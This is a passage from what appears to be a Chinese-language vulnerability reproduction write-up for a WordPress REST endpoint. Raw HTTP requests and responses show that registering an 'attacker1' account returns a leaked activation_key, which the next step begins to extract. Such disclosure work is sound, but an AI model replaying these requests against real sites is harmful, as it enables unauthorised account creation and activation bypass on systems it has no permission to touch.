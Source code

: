         Host: 192.168.20.12:10459

        Upgrade-Insecure-Requests: 1

        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0

        Accept: */*

        Accept-Encoding: gzip, deflate

        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

        Content-Type: application/json; charset=UTF-8

        Content-Length: 112



        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```

    - 替换 `Host` 为自己的 IP 和端口。
    - 得到回显:
        ```
            HTTP/1.1 200 OK

            Date: Thu, 22 May 2025 03:48:36 GMT

            Server: Apache/2.4.18 (Ubuntu)

            X-Robots-Tag: noindex

            Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"

            X-Content-Type-Options: nosniff

            Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link

            Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type

            Allow: POST

            Content-Length: 280

            Content-Type: application/json; charset=UTF-8



            [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
            ```
2. **提取激活密钥**
   - 发送请求后，服务器会返回一个响应包，其中包含 `activation_key`。
